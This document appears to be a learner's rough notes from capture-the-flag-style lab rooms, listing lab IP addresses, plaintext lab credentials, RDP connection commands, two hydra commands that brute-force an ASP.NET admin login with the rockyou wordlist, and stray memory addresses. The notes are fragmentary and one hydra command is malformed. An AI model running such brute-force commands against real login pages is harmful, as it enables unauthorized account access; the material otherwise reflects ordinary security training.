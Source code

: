 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 
10.10.214.145 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.180.60
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 754
Origin: http://10.10.180.60
DNT: 1
Connection: close
Referer: http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=E5YPEg0DkjC%2B5ayJFm%2FBcd0cqk4g9KD9iZ0vHNNYHDQcaV2PMJz1s05zinB94MMBUS0qRC1pXgEuGVGqGPjaR6%2FMYnR52S9HjZ8n7lAHuT0%2BABYffLk5r%2FqXO6Jdtr7Kr09CFZV5qjTctiVb%2FgGqIVb6aIeeloG093tnWWsiNfd97M8wctRqGPyLXbFGqpwZcJT8fjGomlzV9ZlfHOED40TURbh0NCvPJG2zpb37n8wcXGrBJPc5nZLI5PI9ayl3WT%2B%2FUk5fKv7A9kvT4A8rUxCAID9QPPcmlozPwntjdbXy2vjWiD4jgrBUOvnarg%2FW%2BH9vsQTtUWrJf2tfDO5BBBa9xP4O6yY4E0tWbBfpS96sLN8q&__EVENTVALIDATION=ePsk74eOlQvDKNJ5KrhTGuoeZ0FPm2aD4QMx7BXsr22%2FHnU%2FBTCT2wv2oUo7edqq2tZd1j%2FMyMEyZo1FhKVpCxq%2BEWHipYNWVlCq7QaIBP1UFy8yKa27j%2FGRIB0arrkjRZyKgZd4vmXSoc498hBOfrMjfu1w2yomnnC6YuOGWb5Di2GB&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^www^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"


hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 10.10.214.145 "/http-post-form “/Account/login.aspx:__VIEWSTATE=X%2Fz3Mlty62z5Y8aCAMiDaFe%2B9SKdcf9226N9xQ01mq8rP30ZJRq5G7EwUwzkz3n9rzEXVYmhE%2BBRVjtKpusOG%2BclmdkWeaN46I%2FnUYO4uzqLV1jka6wmsfIKFhEdwy3oeh7DlUj8VUnfKjmAAhl6QNzNfhdXj13D13LFPh9wtvnHyBjYmqMzxEvWAL1mwoNVWxVTCra5DFu1l1gLSNfWkrXLzo7bQdYCnhV2xxpLa1JgaLGsxDUS3h25czmU7g3MCciYGEAgFFxv%2FATyhDiIQBlHJ154WMYnL52cM7MR81pZZNgK32WdRwy%2FvA2wQvi6YrjkLrEZsiepbdoKvQHZ6qqyPxH0j6K9BI3%2FlKKiT2cfS1Nm&__EVENTVALIDATION=tbMSuN0fZZiffwoWR2502NvWLKSDwmGhtVGh9KB%2FIf6hdNVf9UjamY4uMbjjKFAInyLeK%2Fz5%2ByO1yrvO44pVUZTCisUdcMS2k59fRgxCJ9mU9waI%2BiHVLyhzWS22LViSMdGRUhHURt84Cg9MNCxXY172nJrVA5WtJ7PavxhpRlqV8Wi3&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed” -t 64



0x8049208

0xffffce0c 





